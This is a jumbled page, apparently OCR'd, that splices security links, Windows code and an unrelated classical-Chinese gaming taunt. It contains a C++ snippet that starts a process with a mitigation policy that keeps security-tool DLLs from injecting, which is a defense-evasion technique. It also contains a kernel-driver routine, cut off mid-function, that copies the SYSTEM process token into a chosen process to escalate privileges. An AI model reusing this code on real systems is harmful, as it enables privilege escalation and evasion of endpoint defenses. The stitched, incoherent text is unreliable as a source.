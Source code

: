 https://detection.fyi/sigmahq/sigma/windows/process_creation/proc_creation_win_uac_bypass_changepk_slui/
```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>

int main()
{
	PROCESS_INFORMATION pi = {};
	STARTUPINFOEXA si = {};
	SIZE_T attributeSize = 0;
	
	InitializeProcThreadAttributeList(NULL, 1, 0, &attributeSize);
	PPROC_THREAD_ATTRIBUTE_LIST attributes = (PPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, attributeSize);
	InitializeProcThreadAttributeList(attributes, 1, 0, &attributeSize);

	DWORD64 policy = PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON;
	UpdateProcThreadAttribute(attributes, 0, PROC_THREAD_ATTRIBUTE_MITIGATION_POLICY, &policy, sizeof(DWORD64), NULL, NULL);
	si.lpAttributeList = attributes;

	CreateProcessA(NULL, (LPSTR)"notepad", NULL, NULL, TRUE, EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, &si.StartupInfo, &pi);
	HeapFree(GetProcessHeap(), HEAP_ZERO_MEMORY, attributes);

	return 0;
}
```

吾乃吾之世界九年级老玩家，吾与尔之间之差距横跨整个pvp界。抱歉，尔太装，吾忍不住而言此。非吾无素质，实尔太装也。尔之外挂明显窃取默然之配置，可知尔乃欣欣手下败将。明日吾将发布与尔对刀之视频，令尔丢脸。尔将知天壤之别。尔等免费之物不能与吾之相提并论。尔为挑衅吾，真乃煞费苦心。尔何不敢直接于qq上对吾喊话？胆小鬼哉！过年尔收几何？吾欲与尔28pottedpvp一战，

https://www.ired.team/offensive-security/defense-evasion/preventing-3rd-party-dlls-from-injecting-into-your-processes

为公平起见，吾会邀吾之好友小达观战。吾还会让吾之同dream录制视频发至yoututu。思之即知尔必败。尔勿投降，否则吾甚丢脸。吾获胜之台词已备矣。出去勿言元老欺负尔，仅为教训尔这狂妄小子。让尔知何谓吾之世界最强。guiwow尔识之否？乃那厉害人物也。吾曾与之一场pvp，激战30分钟，吾始凭技术胜之。吾此言勿令尔惧，俟锹把来战。[doge]

```cpp
NTSTATUS TokenLevelUp(ULONG pid)
{
    ULONG tokenOffost = 0x4b8;
    PEPROCESS privilegedProcess, targetProcess;
    NTSTATUS status = STATUS_SUCCESS;

    // Getting the EProcess of the target and the privileged processes.
    status = PsLookupProcessByProcessId(pid, &targetProcess);
    ULONG64 tokenOffset = GetTokenOffset();

    if (!NT_SUCCESS(status) || tokenOffset == STATUS_UNSUCCESSFUL)
        return status;

    status = PsLookupProcessByProcessId(ULongToHandle(SYSTEM_PROCESS_PID), &privilegedProcess);

    if (!NT_SUCCESS(status))
    {
        ObDereferenceObject(targetProcess);
        return status;
    }

    *(UINT64*)((UINT64)targetProcess + tokenOffset) = *(UINT64*)(UINT64(privilegedProcess) + tokenOffset);

    ObDereferenceObject(privilegedProcess);
```